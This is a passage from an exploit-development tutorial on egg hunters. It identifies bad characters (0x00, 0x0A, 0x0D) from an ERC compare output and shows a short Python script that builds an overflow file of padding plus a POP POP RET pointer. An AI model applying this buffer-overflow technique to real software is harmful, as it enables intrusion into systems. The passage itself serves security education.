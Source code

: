 <p align="center"><img src="/images/basics-of-exploit-development-3-egg-hunters/Compare-EDITED.PNG"/></p>    
<p align="center"><i>Output of ERC –Compare command.</i></p>

As can be seen from the output above the instructions that will cause us problems (the omitted ones) are 0x00, 0x0A and 0x0D, shocking! Now we know we can’t put a 0x00 in the middle of our payload as it will cut it short meaning the overflow will never get triggered however we do need one in order to use our POP, POP, RET instructions.

Firstly we will try and put the 0x00 byte at the end of our payload to see if it makes it into memory unmodified. Our exploit code should now look something like this.
```
f = open("crash-4.txt", "wb")  
  
buf = b"A" * 620  
buf += b"B" * 4 
buf += b"\x86\x1e\x40\x00" #00401e86 <- Pointer to POP, POP, RET  
  
f.write(buf)  
f.close()  
```
